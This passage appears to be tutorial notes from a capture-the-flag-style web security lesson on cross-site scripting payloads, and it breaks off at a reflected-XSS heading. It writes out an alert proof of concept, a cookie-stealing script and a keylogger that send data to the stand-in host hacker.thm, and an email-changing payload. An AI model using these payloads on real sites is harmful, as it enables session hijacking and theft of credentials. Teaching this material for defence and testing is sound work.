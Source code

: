 # XSS Payloads                            

In XSS, the payload is the JavaScript code we wish to be executed on the  targets computer. There are two parts to the payload, the **intention and  the modification**.

The ***intention*** is what you wish the JavaScript to actually do (which we'll cover with some examples below).

the ***modification*** is the changes to the code we need to make it execute as  every scenario is different (more on this in the perfecting your payload task).

## **Proof Of Concept**

This is the simplest of payloads where all you want to do is demonstrate  that you can achieve XSS on a website. This is often done by causing an  alert box to pop up on the page with a string of text, for example:

<script>alert('XSS');</script>

## **Session Stealing:**

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie,  base64 encodes the cookie to ensure successful transmission and then  posts it to a website under the hacker's control to be logged. Once the  hacker has these cookies, they can take over the target's session and be logged as that user.

<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>

## **Key Logger:**

The below code acts as a key logger. This means anything you type on the  webpage will be forwarded to a website under the hacker's control. This  could be very damaging if the website the payload was installed on  accepted user logins or credit card details.

<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>

## **Business Logic:**

This payload is a lot more specific than the above examples. This would be  about calling a particular network resource or a JavaScript function.  For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:

<script>user.changeEmail('attacker@hacker.thm');</script>

# Reflected XSS

Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

**Example Scenario:**
